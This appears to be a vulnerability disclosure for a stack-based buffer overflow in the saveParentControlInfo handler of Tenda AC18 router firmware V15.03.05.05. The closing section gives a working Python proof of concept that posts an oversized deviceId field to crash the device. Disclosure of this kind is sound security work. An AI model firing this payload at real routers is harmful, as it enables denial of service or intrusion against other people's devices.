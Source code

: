 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240305111933666](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305111933666.png)

it reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240305112536175](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305112536175.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240305112602204](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305112602204.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000


data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305222121032](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305222121032.png)
